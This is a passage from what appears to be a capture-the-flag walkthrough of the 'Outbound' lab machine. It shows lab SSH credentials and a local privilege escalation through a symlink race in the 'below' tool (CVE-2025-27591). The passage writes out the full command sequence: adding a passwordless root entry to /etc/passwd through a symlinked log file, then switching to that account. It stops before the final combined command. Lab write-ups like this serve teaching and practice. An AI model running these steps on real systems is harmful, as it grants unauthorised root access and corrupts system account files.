 ```
Mel
```
Then we can use the credit `jacob:gY4Wr3a1evp4` to connect it by using __ssh__.

__Result:__ Successfully obtained user.txt

## Step 7 - Obtaining the Root flag
Checked and found sudo -l contains wildcards.
```
jacob@outbound:~$ sudo -l
Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```

`below` is a Linux performance monitoring tool written in Rust. It can load plugins, configs, and spawn subprocesses depending on options.

You are allowed to run any below command as root. Further enumeration revealed that below had a known symlink vulnerability 
 `CVE-2025-27591`.


> What’s a Symlink?\
A symlink (short for symbolic link) is like a shortcut. It’s a special file that just points to another file. For example, if you make a symlink called link.txt that points to /etc/passwd, opening link.txt is the same as opening /etc/passwd.
>
> What’s a Symlink Attack?\
A symlink attack is when an attacker tricks a program into following a symlink that points to something sensitive—like a password file or system config.

## Step 8 - Exploiting the Race Condition

The plan was to trick the below command into writing to `/etc/passwd` instead of its intended log file, `/var/log/below/error_root.log`. This required winning a race condition.

> This Section is referred from [Medium](https://medium.com/@divyanshusainialok/outbound-htb-walkthrough-c4b36fd4b194)

Here are the steps:
1. Create a malicious user entry that would grant us root privileges and save it to a temporary file.
```
echo "pwn::0:0:pwn:/root:/bin/bash" > /tmp/fakepass
```
2. Delete the original log file.
```
rm -rf /var/log/below/error_root.log
```
3. Create a symbolic link from the expected log file location to our target, `/etc/passwd`.
```
ln -s /etc/passwd /var/log/below/error_root.log
```
4. Execute the below command with sudo to trigger the file write operation.
```
sudo /usr/bin/below
```
5. Overwrite with malicious entry:
```
cp /tmp/fakepass /var/log/below/error_root.log && su pwn
```
__Race Condition Command:__\
Due to the race condition, this needs to be executed as a single command: